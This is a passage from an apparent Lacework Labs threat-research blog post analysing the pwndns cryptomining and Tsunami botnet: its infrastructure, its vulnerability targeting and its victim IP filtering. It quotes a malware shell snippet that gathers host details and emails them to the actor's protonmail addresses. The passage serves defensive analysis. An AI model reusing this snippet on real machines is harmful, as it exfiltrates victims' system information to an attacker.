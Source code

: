 

echo "Subject: Server Information @ Reboot" &amp;gt; mail.txt
echo "►=====================INFO SCRIPT BY p3rL=========================◄" &amp;gt;&amp;gt; mail.txt
echo "[₪]► IP                    › $IP" &amp;gt;&amp;gt; mail.txt
echo "[₪]► USER                  › $USER" &amp;gt;&amp;gt; mail.txt
echo "[₪]► COUNTRY               › $COUNTRY" &amp;gt;&amp;gt; mail.txt
echo "[₪]► ORG                   › $ORG" &amp;gt;&amp;gt; mail.txt
echo "[₪]► ROOT                  › $ROOT" &amp;gt;&amp;gt; mail.txt
echo "[₪]► GPU                   › $GPU" &amp;gt;&amp;gt; mail.txt
echo "[₪]► OS                    › $OS" &amp;gt;&amp;gt; mail.txt
echo "[₪]► RAM                   › $RAM" &amp;gt;&amp;gt; mail.txt
echo "[₪]► DISK                  › $DISK" &amp;gt;&amp;gt; mail.txt
echo "[₪]► MODEL                 › $MODEL" &amp;gt;&amp;gt; mail.txt
echo "[₪]► PROCESSORS            › $PROCS" &amp;gt;&amp;gt; mail.txt
echo "[₪]► STEPPING              › $STEP" &amp;gt;&amp;gt; mail.txt
echo "[₪]► BOGOMIPS              › $BOGO" &amp;gt;&amp;gt; mail.txt
echo "[₪]► UPTIME                › Days &amp;gt; $DAYS | Hours &amp;gt; $HRS | Minutes &amp;gt; $MINS" &amp;gt;&amp;gt; mail.txt
echo "[₪]► UNAME                 › $VER" &amp;gt;&amp;gt; mail.txt

sendmail "pwndns@protonmail.com,pwndns.pw@protonmail.com" &amp;lt; mail.txt 2&amp;gt;/dev/null
sed -i '1d' mail.txt
mail -s "Server Information @ Reboot" "pwndns@protonmail.com,pwndns.pw@protonmail.com" &amp;lt; mail.txt 2&amp;gt;/dev/null
rm -rf mail.txt

In addition to pwndns and do-dear, there are other clusters of infrastructure in use throughout the various samples, such as Tsunami beacons to 104.244.75.25, which can also link to a collection of other malicious activity reported by Tencent. This pivot can be made with confidence based on code similarity, infrastructure overlap, and again wallet reuse. This blog will not dive into the extent of this pivot, but it expands into Windows targeting, Powershell scripts, and other associated adversary attack techniques.
Targeting and Victims
Lacework Labs is unable to determine the complete list of targeting methods used by this actor, however we assess with moderate confidence that it continues to be exploitation of n-day vulnerabilities for Apache Struts, Redis, Docker, Hadoop, WebLogic, JBoss, and other commonly public facing services. As noted from the findings during an infrastructure analysis, targeting includes Windows and Linux operating systems. We estimate that victim quantities range from 1500 to 2000 hosts recently. Again, we’re unable to verify mining worker quantities due to the proxy use, however a roughly 2000 worker botnet could gain noteworthy mining income for a crimeware group. Cisco Umbrella shows the tell-tale signs of what are likely automated victim DNS beacons based on their telemetry.
 

Figure 15. DNS activity – Cisco Umbrella 
Geolocation data from Cisco Umbrella shows the majority of queries originating from India, Iran, Brazil, and China.
 

Figure 16. DNS location of sources – Cisco Umbrella 
Previous campaigns made use of an IP list to filter out potential victims. A script named update.sh would first check the victim’s external IP address and compare it to the IPs in the list. If there is a match, then the Tsunami variant is installed, otherwise the PwnRig miner would be. The use of an IP filter is not a common tactic and displays a more targeted approach in operations. The same list appears to have been used for close to a year and consists of 8458 entries. The following chart is a breakdown of target IP ASNs in this filter. It’s worth noting that passive DNS analysis of attacker infrastructure revealed much overlap in the same ASNs. This filtering gives a sense for target types based on their public IP.
 